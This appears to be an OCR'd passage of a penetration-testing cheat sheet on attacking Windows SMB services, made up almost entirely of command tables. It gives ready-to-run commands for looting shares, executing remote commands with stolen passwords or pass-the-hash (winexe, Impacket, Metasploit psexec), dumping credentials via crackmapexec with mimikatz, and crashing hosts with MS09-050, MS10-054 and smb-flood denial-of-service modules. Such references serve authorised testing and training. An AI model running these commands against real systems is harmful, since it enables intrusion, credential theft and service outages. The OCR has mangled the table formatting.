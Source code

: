 | 1 2 3 4  | smbclient //10.10.x.x/SharedFolder -U 'secybr.local\\\\0xhav0c' 'Password123!' -p TargetPort recurse ON prompt OFF mget \*  |
|----------|-----------------------------------------------------------------------------------------------------------------------------|

Access to the MS-RPC command line can be achieved using credentials.

| 1  | rpcclient 10.10.x.x -U 'secybr.local\\\\0xhav0c'  |
|----|---------------------------------------------------|

Command can be run by using username and password information (in systems where local administrator authority can be obtained).

| 1 2 3 4 5  | nmap -sV -p445 --script=smb-psexec.nse --script-args=smbuser=Username.list,smbpass=Password.list 10.10.x.x smbmap –host-file /FullPath/TargetIP.list -d secybr.local -u 0xhav0c -p 'Password123!' -x "net user" winexe -U secybr.local\\\\0xhav0c%Password123! //10.10.x.x "net user" crackmapexec smb 10.10.x.x -u Username -p Password -M mimikatz -o COMMAND=privilege::debug crackmapexec smb 10.10.x.x -u Username -H '53f587baed383d5e8969457609f80sdfdsfdsfsda22a7e651:1b7951d1ee9e3363' -M mimikatz -o COMMAND=privilege::debug  |
|------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

![executing Mimikatz script from crackmapexec](media/5f2140b60540859d08123d816fd95160.png)executing Mimikatz script from crackmapexec

Access to the Windows command line (Meterpreter, CMD, Powershell, …) can be achieved by using the username and password information (in systems where local administrator authority can be obtained).

| 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15  | winexe -U secybr.local\\\\Username%Password //10.10.x.x "cmd.exe" –system pth-winexe -U secybr.local/0xhav0c%aad3b435b51404eeaad3b435b51404ee //10.10.x.x cmd.exe –system  \#Metasploit Framework msf \> use exploit/windows/smb/psexec msf \> use exploit/windows/smb/psexec_psh msf \> use exploit/windows/smb/smb_delivery  \#Impackets python psexec.py secybr.local/0xhav0c:Password123!@10.10.x.x python smbexec.py secybr.local/0xhav0c:Password123!@10.10.x.x python wmiexec.py secybr.local/0xhav0c:Password123!@10.10.x.x  \#Windows Sysinternals:  psexec.exe \\\\10.10.x.x -u secybr.local\\0xhav0c -p Password cmd.exe /accepteula  |
|--------------------------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

Access to the Windows command line (Meterpreter, CMD, Powershell, …) can be achieved by using the username and password summary information (in systems where local administrator authority can be obtained).

| 1 2 3 4 5 6 7 8 9 10  | pth-winexe -U secybr.local\\\\0xhav0c%aad3b435b51404eeaad3b435b51404ee //10.10.x.x "cmd.exe" –system  \#Metasploit Framework msf \> use exploit/windows/smb/psexec msf \> use exploit/windows/smb/psexec_psh  \#Impackets python psexec.py secybr.local/0xhav0c@10.10.x.x -hashes 00000000000000000000000000000000:4a09d6777d034c2a5fced85d044a98e3 python smbexec.py secybr.local/0xhav0c@10.10.x.x -hashes 00000000000000000000000000000000:4a09d6777d034c2a5fced85d044a98e3 python wmiexec.py secybr.local/0xhav0c@10.10.x.x -hashes 00000000000000000000000000000000:4a09d6777d034c2a5fced85d044a98e3  |
|-----------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

Common SMB Vulnerabilities

DOS vulnerabilities using this service can be detected.

| 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17  | \#MS09-050: Microsoft Windows SMB2 \_Smb2ValidateProviderCallback() Vulnerability (975497) (uncredentialed check) [CVE-2009-2526] nmap -sV -p445 --script=smb-vuln-cve2009-3103 10.10.x.x nmap -sV -p445 --script=smb-vuln-cve2009-3103 --script-args unsafe=1 10.10.x.x msf \> use auxiliary/dos/windows/smb/ms09_050_smb2_negotiate_pidhigh 10.10.x.x msf \> use exploit/windows/smb/ms09_050_smb2_negotiate_func_index 10.10.x.x  \#MS10-006: Vulnerabilities in SMB Client Could Allow Remote Code Execution (978251) msf \> use auxiliary/dos/windows/smb/ms10_006_negotiate_response_loop  \#MS10-054: Vulnerabilities in SMB Server Could Allow Remote Code Execution (982214) [CVE-2010-2551] [CVE-2010-2552] (Remote Memory Corruption. Result is BSOD -\> DANGEROUS) nmap -sV -p445 --script=smb-vuln-ms10-054 --script-args unsafe=1 10.10.x.x  \#Service regsvc vulnerability [CVE-2010-2550] nmap -sV -p445 --script=smb-vuln-regsvc-dos 10.10.x.x  \#SMB DOS nmap -sV -p445 --script=smb-flood --script-args smbdomain=Domain,smbuser=Username,smbpass=Password 10.10.x.x  |